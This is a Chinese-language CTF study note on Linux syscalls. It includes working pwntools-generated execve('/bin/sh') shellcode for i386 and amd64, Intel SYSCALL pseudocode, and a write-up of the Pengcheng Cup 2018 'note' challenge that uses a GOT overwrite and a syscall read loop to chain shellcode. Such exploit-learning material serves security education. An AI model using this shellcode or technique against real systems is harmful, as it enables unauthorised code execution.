 # syscall

## syscall

### 系统调用号对应的表

[syscall64](https://syscalls64.paolostivanin.com/)

[syscall32](https://syscalls32.paolostivanin.com/)

### 32位 64位 getshell 汇编代码

#### 32 位
```
>>> context.arch = 'i386'
>>> print(shellcraft.execve('/bin/sh'))
    /* execve(path='/bin/sh', argv=0, envp=0) */
    /* push '/bin/sh\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x169722e
    push 0x6e69622f
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```

eax = 0xb   ebx = addr("/bin/sh")  ecx = 0  edx = 0

#### 64 位
```
>>> context.arch = 'amd64'
>>> print(shellcraft.execve('/bin/sh'))
    /* execve(path='/bin/sh', argv=0, envp=0) */
    /* push '/bin/sh\x00' */
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x68732f6e69622f
    xor [rsp], rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```

rax = 0x3b  rdi = addr("/bin/sh")  rdx = 0  rsi = 0

### 系统调用时更改的寄存器

```
IF (CS.L ≠ 1 ) or (IA32_EFER.LMA ≠ 1) or (IA32_EFER.SCE ≠ 1)
(* Not in 64-Bit Mode or SYSCALL/SYSRET not enabled in IA32_EFER *)
    THEN #UD;
FI;
RCX ← RIP;
                            (* Will contain address of next instruction *)
RIP ← IA32_LSTAR;
R11 ← RFLAGS;
RFLAGS ← RFLAGS AND NOT(IA32_FMASK);
CS.Selector ← IA32_STAR[47:32] AND FFFCH (* Operating system provides CS; RPL forced to 0 *)
(* Set rest of CS to a fixed value *)
CS.Base ← 0;
                            (* Flat segment *)
CS.Limit ← FFFFFH;
                            (* With 4-KByte granularity, implies a 4-GByte limit *)
CS.Type ← 11;
                            (* Execute/read code, accessed *)
CS.S ← 1;
CS.DPL ← 0;
CS.P ← 1;
CS.L ← 1;
                            (* Entry is to 64-bit mode *)
CS.D ← 0;
                            (* Required if CS.L = 1 *)
CS.G ← 1;
                            (* 4-KByte granularity *)
CPL ← 0;
SS.Selector ← IA32_STAR[47:32] + 8;
                            (* SS just above CS *)
(* Set rest of SS to a fixed value *)
SS.Base ← 0;
                            (* Flat segment *)
SS.Limit ← FFFFFH;
                            (* With 4-KByte granularity, implies a 4-GByte limit *)
SS.Type ← 3;
                            (* Read/write data, accessed *)
SS.S ← 1;
SS.DPL ← 0;
SS.P ← 1;
SS.B ← 1;
                            (* 32-bit stack segment *)
SS.G ← 1;
                            (* 4-KByte granularity *)
```

值得注意的是 syscall 会用 rcx 记录下一条指令的值，如果程序允许你的输入在一个 rwxp 段，但是每次输入十分短的时候，可以通过 syscall 找到当前写入的地址进行续写

### 鹏程杯 2018 的 note 
note 中 got 表的部分 rwxp，heap 也为 rwxp ，若将 got 表的某一项覆盖成指向 shellcode 的 指针，即可 getshell <br/>

漏洞在于可以通过溢出覆盖 Array 的 idx ，进而下溢数组，覆盖 got 表某一项成 chunk 的地址，在调用该 got 的时候，跳转到 heap 上的 shellcode 运行汇编代码 <br/>

此题限制每次的写到 heap 上的长度小于 13 ，因此一种办法是将多个 heap 上的 shellcode 通过 asm("jmp addr") 拼接起来 ("\xEB" 是 jmp (-127 ~ +128) 的机器码，通过 gdb 或者 手推也能得到 "\xEB\x??" 的值) <br/>

这里想重点介绍一下 Whitzard 的做法，很巧妙运用 syscall ， 以下为 Whitezard 的关键汇编代码<br/>

```
start :
	xor rax, rax 
	syscall 
	dec edx
	mov rsi, rcx
	jmp start
```

最开始的时候由于输入限制只能 13 byte，因此控制不了 rsi，不能 read 到自己想要的地方，并且不能从现有的汇编代码跳转过去。但是可以通过 syscall 找到之前写入的地址，运用 edx 只取 rdx 的低 32 位，jmp (-127 ~ +128) 的值进行调用 SYS_read， 将 shellcode 续写在 syscall 后面，从而 getshell

[Syscall Operation](https://github.com/HJLebbink/asm-dude/wiki/SYSCALL)


